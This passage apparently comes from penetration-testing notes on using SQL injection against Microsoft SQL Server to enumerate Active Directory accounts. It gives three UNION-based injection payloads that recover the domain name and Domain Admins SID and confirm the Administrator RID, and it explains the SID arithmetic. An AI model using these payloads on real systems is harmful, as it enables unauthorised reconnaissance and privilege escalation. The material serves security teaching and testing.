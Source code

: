 1. Get the domain name using `SELECT DEFAULT_DOMAIN()` (Figure 16.1).
2. Get the domain RID using `SUSER_SID()` on a known group, such as `Domain Admins` (Figure 16.2).
3. Build a user RID and check it using `SUSER_SNAME()` (Figure 16.3).

{% tabs %}
{% tab title="1. Domain Name" %}
```sql
test' UNION ALL SELECT 66,66,66,DEFAULT_DOMAIN(),66-- lysJ
```
{% endtab %}

{% tab title="2. Domain RID" %}
{% code overflow="wrap" %}
```sql
test' UNION ALL SELECT 66,66,66,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),66-- lysJ
```
{% endcode %}
{% endtab %}

{% tab title="3. Confirm Admin's RID" %}
{% code overflow="wrap" %}
```sql
test' UNION ALL SELECT 66,66,66,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),66-- lysJ
```
{% endcode %}
{% endtab %}
{% endtabs %}

Since the RID is `0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000`, we can extract the domain RID: `0x0105000000000005150000001c00d1bcd181f1492bdfc236`. We know that the [`Administrators` RID is `500`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-default-user-accounts#administrator-account-attributes) and we can make this RID by:

1. Taking this value (`500`)
2. Converting to hex (`0x1f4`)
3. Padding it to 4 bytes (`0x000001f4`)
4. And reversing the byte order (`0xf4010000`)

As a result, the `Administrator` RID should be `0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000`. We can confirm this using `SUSER_NAME`.
